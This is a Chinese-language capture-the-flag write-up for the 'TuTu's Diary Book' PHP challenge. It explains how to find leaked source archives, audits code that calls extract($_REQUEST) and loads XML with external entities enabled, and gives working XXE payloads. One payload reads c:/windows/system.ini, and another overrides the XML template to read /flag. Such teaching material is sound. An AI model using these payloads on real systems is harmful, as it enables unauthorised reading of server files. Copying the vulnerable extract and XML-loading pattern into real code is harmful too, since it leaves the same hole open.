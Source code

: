 ```yaml
---
title: hgamemini-TuTu's Diary Book
tags: 
  - xxe注入
description: ISCTF php 一句话木马
---
```

# hgamemini-TuTu's Diary Book
打开界面，是一个可以输入心情和内容的日记本，通过观察没有任何可以下手的地方，首先我们通过爆破网站目录或者根据经验获取网站源码以进行代码审计。
## 源码获取
这里注意常见的源码文件：
```
1.www.zip
2.www.tar.gz
3.src.zip
4.src.tar.gz
5.www.tar
6./.git/
```
![](./img/Snipaste_2023-12-14_23-18-26.png)
![](./img/Snipaste_2023-12-14_23-19-35.png)

```php
// newdiary.php
<?php
    $diary_template = "<?xml version='1.0' encoding='utf-8'?>
        <diary>
            <date>%s</date>
            <feeling>%s</feeling>
            <content>%s</content>
        </diary>
    ";

    date_default_timezone_set('Asia/Shanghai');
    $system_date = date('Y-m-d H:i:s');
    extract($_REQUEST);
    if(isset($feeling) && isset($content)) {
        if($content == "") {
            echo "⛌ 日记内容不能为空";
            die();
        }
        $diary = sprintf($diary_template, $system_date, $feeling, $content);
        $diary_filename = date('Y-m-d') . ".xml";
        file_put_contents('./diaries/' . $diary_filename, $diary);
        header("Location: /readdiary.php?diary_date=" . date('Y-m-d'));
    } else {
        echo "feeling and content must be set.";
        die();
    }
?>
```
## 代码解析
代码中，会使用`diary_template`作为模板，通过`extract`解析参数，在后面的`sprintf`格式化字符串构造xml文件。如果满足`feeling`和`content`被设置且不为空，则将输入的内容构造成新的xml文件。而在另一个页面`readdiary.php`中，存在解析 xml 文件并从中获取历史日记的代码，并且在该代码中，由于读取文件时使用正则表达式过滤了文件名，我们无法通过这里读取文件来直接获取 flag：
```php
<?php
    extract($_REQUEST);
    if(isset($diary_date)) {
        // Check diary file.
        if(!preg_match('/^([0-9]{4})-([0-9]{2})-([0-9]{2})$/',$diary_date)) {
            echo "invaild diary_date input.";
            die();
        }
        $diary_file = "./diaries/" . $diary_date . ".xml";
        if(!file_exists($diary_file)) {
            echo "†没有这一天的日记†";
            die();
        }
        // The diary file is now vaild. 
        // Read diary file.
        
        $diary_dom = new DOMDocument();
        $diary_dom->loadXML(file_get_contents($diary_file) , LIBXML_NOENT | LIBXML_DTDLOAD);
        $diary = simplexml_import_dom($diary_dom);
    } else {
        echo "diary_date must be set.";
        die();
    }
?>
```
## 漏洞挖掘
通过上述写入 xml 又加载 xml 的过程，我们猜想可能是XXE漏洞。

XXE漏洞的基本场景如下：
```php
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;

?>
```
对于上述场景，我们可以构造如下 payload
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```
即可通过 xxe 注入读取`c:/windows/system.ini`。

在本题中，由于 xml 是预先设定好的模板：
``` php
$diary_template = "<?xml version='1.0' encoding='utf-8'?>
        <diary>
            <date>%s</date>
            <feeling>%s</feeling>
            <content>%s</content>
        </diary>
    ";
```
在该模板中只有三个 `%s` 的地方可以写入内容，而我们的 payload 必须在 diary 标签外定义外部实体从而读外部文件，所以必须想办法修改该 template。
## 漏洞利用
观察代码，发现`extract($_REQUEST);`其中
>extract() 函数从数组中将变量导入到当前的符号表。
该函数使用数组键名作为变量名，使用数组键值作为变量值。针对数组中的每个元素，将在当前符号表中创建对应的一个变量。该函数返回成功设置的变量数目。

例子如下：
```php
<?php
$a = "Original";
$my_array = array("a" => "Cat","b" => "Dog", "c" => "Horse");
extract($my_array);
echo "\$a = $a; \$b = $b; \$c = $c";
?>
```
并且查阅资料，`_REQUEST`是
> 默认情况下包含了 $_GET，$_POST 和 $_COOKIE 的数组。(https://www.php.net/manual/zh/reserved.variables.request.php)

因此我们可以在请求中附加`diary_template`参数，从而利用 extract 的特性修改该变量。

我们在 get 请求中附带`diary_template`参数，将其设置为如下内容，需要注意的是我们需要按原样构建 xml 的结构，必须是完整的 xml 文件，并且包含 diary 根节点和 date、feeling以及 content：
```xml
<?xml version='1.0' encoding='utf-8'?>
<!DOCTYPE content [  
<!ENTITY goodies SYSTEM "file:///flag"> ]> 
    <diary>
        <date>%s</date> 
        <feeling>%s</feeling>
        <content>%s</content>
    </diary>
```

![](./img/Snipaste_2023-12-15_17-55-40.png)
该请求 发送至 newdiary.php 被`extract`函数解析后，以覆盖的`diary_template`写入得到 xml 文件中，进而在 readdiary.php 中被重新加载，触发漏洞，获取将 flag 的内容，将 flag 作为 content 从而显示。

## 写在后面
注意几个经常遗忘的点或者比较重要的点：
- isset函数：用于检测变量是否已设置并且非 NULL。
- extract函数:可以传入数组中的键值对从而修改原变量的值或创建新变量赋并初值。
- 关于访问文件：文件名可以依次尝试`flag`,`flag.txt`,`flag.php`(根据题目)
- 路径：./代表当前目录 /代表根目录 ../代表上一层目录